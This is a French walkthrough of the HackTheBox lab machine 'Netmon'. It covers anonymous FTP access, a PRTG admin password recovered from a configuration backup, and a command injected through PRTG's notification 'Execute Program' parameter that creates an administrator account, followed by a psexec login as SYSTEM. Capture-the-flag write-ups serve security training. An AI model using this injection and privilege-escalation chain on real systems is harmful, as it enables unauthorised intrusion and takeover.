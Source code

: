 ```yaml
---
title: "HackTheBox - Netmon"
description: "fileoutput.jpg"
tags: ["Dans cet article je vous présente comment être administrateur dans la boîte Netmon, c'était une boîte très amusante mais en même temps très facile. Le FTP n'était pas chroot dans le système ce qui nous permettait de lire des fichiers plus ou moins sensible, il y'avait un service PRTG Network Monitor qui tournait ce qui nous permettait d'être administrateur dans le système"]
---
```


![Flower](../fileoutput.jpg)

Informations
----
    Ip :  10.10.10.152      Created by : mrb3n
    Level : Easy    Base Points : 20
    
Résumé : <br />

Le système Netmon, disponible sur la platforme [HackTheBox](https://www.hackthebox.eu/), fut très intéressant et amusante. La boîte était relativement simple. De plus, j’ai appris beaucoup de chose tout au long de l’exploitation des failles de ce système. <br />

- Le protocole `FTP` est ouvert, et il était possible de se connecter en `anonymous`.
- Le service FTP n'est pas `chroot` ce qui nous permettait de lire des fichiers dans le système.
- Il y'a le service `PRTG Network Monitor` d'ouvert dans le système et il y'avait un fichier `backup` assez sensible pour la récupération du mot de passe de la session.
- Nous pouvons exécuter des commandes grâce au système `PRTG Network Monitor` et ensuite faire notre reverse shell pour être administrateur.

Nmap
----
    Starting Nmap 7.01 ( https://nmap.org ) at 2019-06-29 17:21 CEST
    Nmap scan report for 10.10.10.152
    Host is up (0.040s latency).
    PORT    STATE SERVICE      VERSION
    21/tcp  open  ftp          Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 02-03-19  12:18AM                 1024 .rnd
    | 02-25-19  10:15PM       <DIR>          inetpub
    | 07-16-16  09:18AM       <DIR>          PerfLogs
    | 02-25-19  10:56PM       <DIR>          Program Files
    | 02-03-19  12:28AM       <DIR>          Program Files (x86)
    | 02-03-19  08:08AM       <DIR>          Users
    |_06-29-19  11:07AM       <DIR>          Windows
    80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
    | http-title: Welcome | PRTG Network Monitor (NETMON)
    |_Requested resource was /index.htm
    139/tcp open  netbios-ssn  Microsoft Windows 98 netbios-ssn
    445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 microsoft-ds
    Service Info: OSs: Windows, Windows 98, Windows Server 2008 R2; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_98, cpe:/o:microsoft:windows_server_2008:r2

    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smbv2-enabled: Server supports SMBv2 protocol

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 20.61 seconds

Il y'a différent services d'ouvert notamment le service `FTP` ou nous avons les permissions pour se connecter en tant que `anonymous`.

FTP
----
    root@Seyptoo:~/htb/box/Netmon# ftp 10.10.10.152
    Connected to 10.10.10.152.
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:18AM                 1024 .rnd
    02-25-19  10:15PM       <DIR>          inetpub
    07-16-16  09:18AM       <DIR>          PerfLogs
    02-25-19  10:56PM       <DIR>          Program Files
    02-03-19  12:28AM       <DIR>          Program Files (x86)
    02-03-19  08:08AM       <DIR>          Users
    06-29-19  11:07AM       <DIR>          Windows
    226 Transfer complete.
    ftp> cd Users
    250 CWD command successful.
    ftp> cd Public
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  08:05AM       <DIR>          Documents
    07-16-16  09:18AM       <DIR>          Downloads
    02-03-19  12:35AM                   33 user.txt
    07-16-16  09:18AM       <DIR>          Videos
    226 Transfer complete.
    ftp> mget user.txt
    mget user.txt? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    WARNING! 1 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    33 bytes received in 0.03 secs (0.9522 kB/s)
    ftp> exit
    root@Seyptoo:~/htb/box/Netmon# wc -c user.txt 
    33 user.txt

Le fichier `user.txt` est disponible et nous pouvons le transférer vers notre machine physique.

PRTG ADMIN
----

D'après le scan et également d'après mes recherches le service tourne dans le dossier `ProgramData`.

    ftp> cd ProgramData
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:15AM       <DIR>          Licenses
    11-20-16  10:36PM       <DIR>          Microsoft
    02-03-19  12:18AM       <DIR>          Paessler
    02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
    07-16-16  09:18AM       <DIR>          SoftwareDistribution
    02-03-19  12:15AM       <DIR>          TEMP
    11-20-16  10:19PM       <DIR>          USOPrivate
    11-20-16  10:19PM       <DIR>          USOShared
    02-25-19  10:56PM       <DIR>          VMware
    226 Transfer complete.
    ftp> cd Paessler
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    06-29-19  11:11AM       <DIR>          PRTG Network Monitor
    226 Transfer complete.
    ftp> cd "PRTG Network Monitor"
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
    06-29-19  10:29AM       <DIR>          Log Database
    02-03-19  12:18AM       <DIR>          Logs (Debug)
    02-03-19  12:18AM       <DIR>          Logs (Sensors)
    02-03-19  12:18AM       <DIR>          Logs (System)
    06-29-19  10:29AM       <DIR>          Logs (Web Server)
    06-29-19  10:34AM       <DIR>          Monitoring Database
    02-25-19  10:54PM              1189697 PRTG Configuration.dat
    06-29-19  10:58AM              1292772 PRTG Configuration.old
    07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
    06-29-19  11:11AM              1548431 PRTG Graph Data Cache.dat
    02-25-19  11:00PM       <DIR>          Report PDFs
    02-03-19  12:18AM       <DIR>          System Information Database
    02-03-19  12:40AM       <DIR>          Ticket Database
    02-03-19  12:18AM       <DIR>          ToDo Database
    226 Transfer complete.

Nous avons des fichiers plutôt interéssant notamment le fichier `backup PRTG Configuration.old.bak`, nous allons transférer ce fichier vers notre machique physique pour énumérer ce fichier. Quand nous défilons un peu, on peut constater des informations d'identification dans le système `PRTG Network Monitor`.

    <dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
    </dbpassword>

Donc si vous tentez d'accéder au service, logiquement vous aurez pas accès car le mot de passe correspond celui là de 2018, et comme nous avons changer de génération c'est 2019. (J'ai mis pas mal de temps à comprendre).

HTTP
----
Donc nous avons les informations d'identification nous pouvons nous connecter dans le service en question et d'éxecuter des commandes.

> Username : prtgadmin <br />
> Password : PrTg@dmin2019

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561823414-1551726438018.png)

Une fois connecté au service nous allons allez dans `Setup` et ensuite notifications. Créé une nouvelle notification et ensuite d'aller dans `Execute Program` pour justement exécuter des commandes. Je vais créé un utilisateur qui serais dans le groupe `administrators`.

`test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add`

Vous devez mettre les informations dans la section `Parameter` et de mettre les informations pour créé notre utilisateur comme administrateur.

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561826366-1551726674533.png)

Vous enregistrez la notification et ensuite vous cliquez sur la petite cloche et normalement votre commande a été exécuter avec succès. Vous devriez un peu patienter pour que la commande sois exécuter avec certitude.

![Flower](https://image.noelshack.com/fichiers/2019/26/6/1561823969-1551726729729.png)

PrivEsc
----

Une fois toute les modifications ont été effectué vous vous connectez avec `psexec.py` dans le système pour être administrateur. Vous pouvez également utilisé `smbclient`.

    root@Seyptoo:~/htb/box/Netmon# psexec.py 'anon:p3nT3st!@10.10.10.152'
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.152.....
    [*] Found writable share ADMIN$
    [*] Uploading file tbwyLJgn.exe
    [*] Opening SVCManager on 10.10.10.152.....
    [*] Creating service PdOp on 10.10.10.152.....
    [*] Starting service PdOp.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system

CONCLUSION
----
Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. Une boîte vraiment intéréssante et concrètement assez originale, une boîte relativement simple.

